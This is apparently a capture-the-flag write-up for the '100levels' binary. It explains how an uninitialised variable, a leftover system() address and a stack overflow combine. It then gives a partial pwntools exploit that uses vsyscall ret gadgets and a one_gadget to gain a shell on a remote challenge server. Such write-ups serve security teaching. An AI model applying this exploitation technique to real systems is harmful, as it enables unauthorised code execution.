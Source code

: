 The vsyscall page contains some interesting gadgets that we can use to just `RET` and walk up the stack.

```
gdb-peda$ x/32i 0xffffffffff600400
   0xffffffffff600400:    mov    rax,0xc9 #gettimeofday函数，反正ret就可以了
   0xffffffffff600407:    syscall
   0xffffffffff600409:    ret
   0xffffffffff60040a:    int3
   0xffffffffff60040b:    int3
```

Note that we have to jump to `0xffffffffff600400` and not `0xffffffffff600409` because these instructions are not actually executed but [emulated](https://github.com/torvalds/linux/commit/5cec93c216db77c45f7ce970d46283bcb1933884). This means, in practical terms, that we cannot jump in the middle because the Linux kernel does not know how to handle it and the program will simply crash.



#### 漏洞分析

根据刚刚对题目的分析，其实漏洞的点已经找到了： 
1. go函数中的两次level询问，第一次如果小于等于0会导致本应该记录第一次询问的level结果的变量未初始化，第二次询问没有判断是否小于0 
2. level函数存在栈溢出 
3. hint函数始终会将system的值放在栈上

这么看两个漏洞有关联，但是还没办法结合，但是巧合的是，system在栈上的位置刚好和第一次询问记录level的v4变量位置重合。那么事情就好办了。

#### 利用思路

1. 使用hint，将system放在栈上
2. 进入go，第一次给出小于等于0的值，使得v4=system的地址。
3. 第二次询问，填0，可以导致最后可以进入system，但是参数不太好处理，所以可以使用one_gadget，那么第二次询问又不会判断大小，直接给出one_gadget和system地址的偏移，这样level值通过想加就变成了one_gadget的地址
4. 完成99次回答
5. 最后一次回答利用栈溢出，返回地址处填入vsyscall的gettimeofday(其实就是vsyscall的最开始位置)地址，填入3次（这里的三次是调试时候计算得出的），使得从返回地址位置一直到保存在栈上的one_gadget之间的位置全部填为gettimeofday
6. 取one_gadget作为返回值。触发，搞定



### exp

```python
#!/usr/bin/env python
from pwn import *
context.log_level = 'debug'

# p = process('./100levels')
p = remote('111.198.29.45',32133)
elf = ELF('./libc.so')

one_gadget = 0x4526a
system_offset = elf.symbols['system']
vsyscall_addr = 0xffffffffff600000

# hint()
p.recvuntil('Choice:\n')
p.sendline('2')
#gdb.attach(p)
p.recvuntil('FUN\n')

# go()
p.recvuntil('Choice:\n')
p.sendline('1')
#gdb.attach(p)
p.recvuntil('How many levels?\n')
p.sendline('0')
```